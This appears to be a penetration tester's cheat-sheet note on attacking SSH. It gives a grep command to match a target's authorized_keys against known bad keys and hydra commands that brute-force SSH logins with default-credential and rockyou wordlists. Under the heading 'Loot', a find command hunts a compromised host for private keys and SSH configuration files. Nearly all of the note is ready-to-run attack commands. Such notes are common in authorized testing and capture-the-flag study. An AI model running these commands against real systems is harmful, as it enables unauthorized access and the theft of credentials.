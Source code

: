 <% tp.file.rename("1_SSH_")%>
#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
$auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```

#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```

Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ssh://$hip$ -V -t 4 -I -s 22
```
(pass userlist with `-L`)

# Loot
```bash
find / -name "ssh_config" -o -name "sshd_config" -o -name "authorized_keys" -o -name "ssh_known_hosts" -o -name ".shosts" -o -name "id_*"
```
